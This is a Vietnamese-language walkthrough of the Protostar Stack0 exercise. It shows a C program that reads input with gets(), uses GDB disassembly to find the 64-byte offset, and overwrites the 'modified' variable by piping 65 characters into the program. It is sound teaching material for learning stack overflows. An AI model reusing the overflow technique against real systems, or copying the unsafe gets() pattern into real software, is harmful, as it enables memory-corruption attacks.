 ## Stack0
- Đầu tiên import file iso của protostar vào virtual machine, đăng nhập bằng credentials: `user:user`
- Chạy lệnh `/sbin/ifconfig` để lấy địa chỉ IP và SSH vào
- Nếu gặp lỗi `Unable to negotiate with 192.168.1.15 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss` thì thêm option `-oHostKeyAlgorithms=+ssh-dss`
```
ssh -oHostKeyAlgorithms=+ssh-dss user@192.168.1.15
```
- source code C:
```c=
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- Goal là ta phải ghi đè được biến `modified`
- Dùng GDB `disass main`, chạy `set disassembly-flavour intel` để xem syntax intel asm, nó sẽ đỡ hơn syntax AT&T:
```asm 
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
```
- Đặt break point ở main `(gdb) b main`, rồi run `r`, execution flow sẽ dừng ở địa chỉ `0x080483fd <main+9>`. Gdb sẽ bỏ qua phần stack alignment từ offset `+0` đến `+6`, nếu muốn dừng ngay tại `+0` ta có thể dùng `b *main` (gdb sẽ hiểu là **break tại địa chỉ của main**, thay vì **break tại hàm main**)
- Để ý dòng `0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0`
- Tại đây đang chuyển giá trị 0 vào ô stack `esp+0x5c`, đối chiếu với code C ta có thể thấy đó là dòng `modified = 0;` => `esp+0x5c` là địa chỉ của biến  `modified`
- Trong code C thì nơi ta có thể ghi input vào là tại dòng 11:
```c
gets(buffer);
```
- `gets` là một hàm nguy hiểm, nó sẽ không biến được biến đích rộng bao nhiêu, nó sẽ lấy toàn bộ input đưa vào biến đích, dẫn đến ghi đè vùng nhớ kề bên => buffer overflow
- Ta chỉ có thể ghi đè được các biến nằm phía trên của biến `buffer`, nên ta sẽ phải kiểm tra xem `modified` có nằm ở trên `buffer` không, nhìn vào asm:
```asm 
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
```
- Thấy trước khi gọi đến `gets` thì địa chỉ của `esp+0x1c` được đưa vào thanh ghi `eax`, đoán rằng đây là biến `buffer`, chạy `p ($esp+0x1c) - ($esp+0x5c)` ra kết quả `-64`, thêm với dữ kiện là stack đi từ địa chỉ cao về địa chỉ thấp => `modified` nằm ở địa chỉ cao hơn `buffer`
- Ta cũng biết thêm một điều là biến `modified` và `buffer` cách nhau 64 bytes, nghĩa là nếu ta truyền 64 bytes vào buffer thì byte thứ 65 sẽ được ghi vào `modified` => solved
- Dùng python tạo ra 64 chữ "A", input vào chương trình:
```
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./stack0
Try again?
$ 
```
- Lần này tạo 65 chữ "A":
```
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./stack0
you have changed the 'modified' variable
$ 
```
